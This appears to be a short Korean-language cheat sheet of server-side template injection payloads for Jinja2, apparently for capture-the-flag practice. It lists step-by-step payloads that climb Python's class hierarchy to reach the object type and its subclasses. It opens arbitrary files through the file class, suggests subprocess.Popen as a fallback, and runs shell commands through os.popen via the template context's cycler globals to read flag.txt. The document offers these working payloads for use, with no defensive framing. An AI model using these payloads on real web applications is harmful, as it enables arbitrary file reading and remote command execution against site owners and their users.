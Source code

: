 # 기본
1. {{ ''.__class__.__mro__ }} 를 쳐서 <type 'object'>의 인덱스를 찾음.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__() }}

# 파일
1. 위 mro의 subclass 에서 <type 'file'>의 인덱스를 찾는다.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__()[`인덱스`].open(`파일 경로`).read() }}
3. 만약 <type 'file'>이 없다면 subprocess.Popen 같은걸 이용하자.

# 기타 코드들
## 파일 읽기
{{ self._TemplateReference__context.cycler.__init_\_.__globals__.os.popen('cat flag.txt').read() }}

